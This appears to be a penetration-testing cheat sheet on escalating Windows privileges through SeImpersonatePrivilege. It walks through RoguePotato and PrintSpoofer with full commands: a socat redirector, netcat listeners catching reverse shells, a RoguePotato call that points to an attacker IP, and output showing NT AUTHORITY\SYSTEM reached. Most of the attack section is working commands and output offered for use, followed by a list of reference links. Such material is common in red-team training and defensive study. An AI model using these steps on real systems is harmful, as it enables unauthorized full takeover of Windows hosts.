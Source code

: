 # Living off the Land

## 01 - Detect

Check if `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is enabled.

```
C:\Windows\System32> whoami
win-qba94kb3iof\admin

C:\Windows\System32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[omitted]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[omitted]..
```

## 02 - Exploit

### 2.1 - RoguePotato

Start with a redirector using `socat`.

```
$ sudo socat tcp-listen:135,reuseaddr,fork tcp:<target_IP>:9999

C:\Windows\System32> whoami
win-qba94kb3iof\admin

C:\Windows\System32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[omitted]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[omitted]..
```

Start a shell handler before running `PsExec64.exe` as in `NT AUTHORITY\LOCAL SERVICE` to receive a callback shell.

```
C:\Windows\System32> cd c:\Tools

C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\System32> whoami
nt authority\local service

C:\Windows\System32> cd c:\Tools

C:\Tools> RoguePotato.exe -r <attacker_IP> -e shell.exe -l 9999
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] IStoragetrigger written:106 bytes
[*] SecurityCallback RPC call
[*] ServerAlive2 RPC Call
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: shell.exe
[+] RoguePotato gave you the SYSTEM powerz :D

$ sudo nc -lnvp 53
C:\Tools> whoami
nt authority\system
```

### 2.2 - PrintSpoofer

```
C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\System32> whoami
nt authority\local service

C:\Windows\System32> whoami /priv

C:\Windows\System32> cd c:\Tools

C:\Tools> PrintSpoofer.exe -c shell.exe -i
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

$ sudo nc -lnvp 53
C:\Windows\System32> whoami
nt authority\system
```

---
## References

### Github

- [gtworek: Priv2Admin](https://github.com/gtworek/Priv2Admin)

- [itm4n: PrinterSpoofer](https://github.com/itm4n/PrintSpoofer)

- [lypd0: DeadPotato](https://github.com/lypd0/DeadPotato)

- [breenmachine: RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

### Hacktricks

- [Hacktricks: RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer.html)

- [Hacktricks: Abusing Tokens](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)

### Hacking Articles

- [Hacking Articles: Windows Privilege Escalation SeImpersonatePrivilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)

### itm4n

- [itm4n: PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

### Juggernaut-Sec

- [Juggernaut-Sec: SeImpersonatePrivilege – Windows Privilege Escalation](https://juggernaut-sec.com/seimpersonateprivilege/)

### ohpe

- [ohpe: Juicy Potato CLSID Enumeration](https://ohpe.it/juicy-potato/CLSID/)

### Jlajara

- [Jlajara: Potatoes Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)